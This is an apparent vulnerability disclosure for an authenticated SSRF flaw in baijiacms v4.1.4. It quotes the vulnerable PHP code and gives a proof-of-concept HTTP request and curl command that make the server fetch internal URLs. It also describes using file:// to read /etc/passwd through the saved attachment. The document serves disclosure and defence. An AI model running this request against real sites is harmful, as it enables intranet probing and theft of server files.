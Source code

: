 # SSRF vulnerability in `fetch_net_file_upload` Function of `file.php` File (baijiacms v4.1.4 version)

## 0x01 Affected version

vendor: https://baijiacms.github.io/baijiacmsv4/index.html

version: V4.1.4

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `fetch_net_file_upload` function of baijiacmsv4 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `url` parameter. We should note that the vulnerability requires authentication before it can be triggered.



The vulnerable code is located in the `fetch_net_file_upload` function in the `includes/baijiacms/common.inc.php` file. This function is called in the file `system/public/class/web/file.php`. Because the function does not perform sufficient checksumming on the `url` parameter, the taint is introduced from the `$url` variable into the tainted function `file_get_contents`, and after the `file_get_contents` function is executed it sends a request to the URL specified by the url parameter, eventually leading to an SSRF vulnerability.



The file `system/public/class/web/file.php` calls the `fetch_net_file_upload` function with the following code
```php
if ($do == 'fetch') {
    $url = trim($_GPC['url']); // $_GPC actually is $_GET 
    $file = fetch_net_file_upload($url);
    if (is_error($file)) {
        $result['message'] = $file['message'];
        die(json_encode($result));
    }
}
```



The relevant code for the file `includes/baijiacms/common.inc.php` is shown below

```php
function fetch_net_file_upload($url)
{
    $url = trim($url);
    $extention = pathinfo($url, PATHINFO_EXTENSION);
    $path = '/attachment/';
    $extpath = "{$extention}/" . date('Y/m/');

    mkdirs(WEB_ROOT . $path . $extpath);
    do {
        $filename = random(15) . ".{$extention}";
    } while (is_file(SYSTEM_WEBROOT . $path . $extpath . $filename));


    $file_tmp_name = SYSTEM_WEBROOT . $path . $extpath . $filename;
    $file_relative_path = $extpath . $filename;
    if (file_put_contents($file_tmp_name, file_get_contents($url)) == false) {
        $result['message'] = '提取失败.';
        return $result;
    }
    $file_full_path = WEB_ROOT . $path . $extpath . $filename;
    return file_save($file_tmp_name, $filename, $extention, $file_full_path, $file_relative_path);
}
```

Because the `url` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows

```
GET /index.php?mod=site&do=file&act=public&op=fetch&beid=1&url=http%3A%2F%2F172.16.119.1%2Fzfuzz HTTP/1.1
Host: 172.16.119.141
Accept: application/json, text/javascript, */*; q=0.01
Cookie: PHPSESSID=e7m370238fh577ta0kbqmkr7e1; __fileupload_type=image; __fileupload_dest_dir=; __fileupload_global=
Connection: close
```

![](./media/16615248830338/16615299946412.jpg)

You can also use the following curl command to verify the vulnerability

```
curl -i -s -k -X $'GET' \
    -H $'Host: 172.16.119.141' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'Connection: close' \
    -b $'PHPSESSID=e7m370238fh577ta0kbqmkr7e1; __fileupload_type=image; __fileupload_dest_dir=; __fileupload_global=' \
    $'http://172.16.119.141/index.php?mod=site&do=file&act=public&op=fetch&beid=1&url=http%3A%2F%2F172.16.119.1%2Fzfuzz'
```

The vulnerability can also be exploited to read arbitrary local files using the `file://` protocol, as the vulnerability saves the fetched content under the `attachment` folder and returns the corresponding file name. So we can directly access the corresponding file to get the file content.

![](./media/16615248830338/16615304827987.png)

Access the corresponding file to get the contents of the `/etc/passwd` file

![](./media/16615248830338/16615305567515.png)

### 0x03 Acknowledgement

Ez Wang, Yf Gao, Zh Wang, Lj Wu, W Xie